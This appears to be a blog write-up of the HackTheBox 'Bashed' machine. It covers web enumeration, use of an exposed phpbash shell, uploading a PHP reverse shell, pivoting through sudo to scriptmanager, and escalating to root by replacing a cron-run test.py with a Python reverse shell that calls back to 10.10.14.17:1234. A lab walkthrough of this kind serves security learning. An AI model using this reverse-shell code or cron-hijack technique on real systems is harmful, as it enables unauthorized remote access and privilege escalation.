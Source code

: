 ```yaml
---
title: "Bashed"
date: 2023-06-24T23:52:47+02:00
tags: ["privesc","web","linux"]
categories: ["hackthebox"]
author: "Ro Hackss"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: ""
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```



## Room Information

- Room name: Bashed
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Bashed

![Untitled](/HTB/bashed-icon.png)

## Tools Used

- Nmap
- Gobuster
- Nikto

## Port Scanning

![Untitled](/HTB/bashed-1.png)

In the port scan we can see that the only service running is a web server.

## Enumeration

![Untitled](/HTB/bashed-4.png)

![/Untitled](/HTB/bashed-5.png)

If we visit the website there are only one article with a web reverse shell information called phpbash, and a url to the github project.

In the url we can find some useful information like how works, this shell removes the necessity of do a traditional reverse shell.

Let’s try this but first some fuzzing

![Untitled](/HTB/bashed-6.png)

We can see that there is a uploads directory maybe we can try to upload a reverse shell.

With nikto, I found that the /dev directory maybe its useful

![Untitled](/HTB/bashed-7.png)

Inside the directory, there are two files, the two of them are the reverse shell which we have seen in the previous github project (seems like a reverse shell to his own machine). If we try to run one we get in.

## Gaining an Initial Foothold

![Untitled](/HTB/bashed-8.png)

We are logged like the web service and the user flag is in the arrexel home directory.

![Untitled](/HTB/bashed-9.png)

Now let’s elevate privilege

If we go to the / directory we can see that inside there is a script folder created by scriptmanager user.

When we try sudo -l we found that the the www-data user has acces to scriptmanager as sudo.

Let’s try `sudo -u scriptmanager -e /bin/bash` 

![Untitled](/HTB/bashed-10.png)

Don’t seem to work, maybe the web server doesn’t allow some commands.

Now let’s try to upload the reverse shell and this time trying to connect it to our machine instead of using the shell on /dev.

One way is to create a http server and curl the file in the victim machine. We need to modify the reverse shell file that I get [here](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) with our ip and port.

![Untitled](/HTB/bashed-11.png)

![Untitled](/HTB/bashed-12.png)

Now let’s open a listening port with netcat and run the shell.

![Untitled](/HTB/bashed-13.png)

![Untitled](/HTB/bashed-14.png)

Before nothing, we are going to pass from a dumb shell to a fully interactive one.

First once we spawn a bash with `python -c 'import pty; pty.spawn("/bin/bash")'` then lets keep the nc in background with ctrl^z, once done we use `stty raw -echo` and then `fg` to return to the web shell but fully interactive this time.

Let’s retry `sudo -u scriptmanager /bin/bash`

![Untitled](/HTB/bashed-15.png)

We are scriptmanager now, let’s see what we can do in the /scripts folder. It’s seems like there are two files in the folder. One of them [test.py](http://test.py) look like this:

```bash
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

This file is created by scriptmanager but the execution of the file needs be owned by root somehow because inside the execution we are opening the test.txt file that only can be modified with root permissions. If you observe the creation time of the file test.txt, you will notice that it undergoes changes every minute. This pattern strongly suggests the presence of a cron job, which is owned by the root user, and is responsible for executing the test.py script every minute.

We can use this to our advantage and change the content of the [test.py](http://test.py) file to a reverse shell and get the system own.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.17",1234)) //change this
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

I get this reverse shell from [pentestmonkey’s](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) handy dandy list of reverse shells.

Let’s set up a listener in the port 1234 and let the magic happen.

![Untitled](/HTB/bashed-17.png)

## Lessons Learned

- What insights did you gain from the room?
    
    I acquired knowledge on the functioning of a cron job and discovered ways to exploit it for potential machine compromise.
    
- Were there any novel tools or techniques employed?
    
    Notably, the utilization of nikto and various reverse shells were introduced.

**Thank you for reading, and happy hacking! 😄**
